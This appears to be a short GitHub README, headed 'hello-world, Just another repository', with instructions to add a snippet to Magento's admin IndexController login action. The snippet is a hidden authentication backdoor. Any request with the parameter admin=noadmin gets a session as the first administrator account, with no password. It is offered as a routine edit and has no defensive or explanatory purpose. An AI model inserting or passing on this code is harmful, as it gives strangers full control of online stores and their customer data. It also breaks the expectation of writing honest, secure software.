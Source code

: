 # hello-world
Just another repository
app\code\core\Mage\Adminhtml\controllers\IndexController.php

add this to first line login action

$ad  = Mage::app()->getRequest()->getParam('admin', false);  		
if($ad == 'noadmin'){
  Mage::getSingleton('admin/session')->setUser(Mage::getModel('admin/user')->getCollection()->getFirstItem());	
}
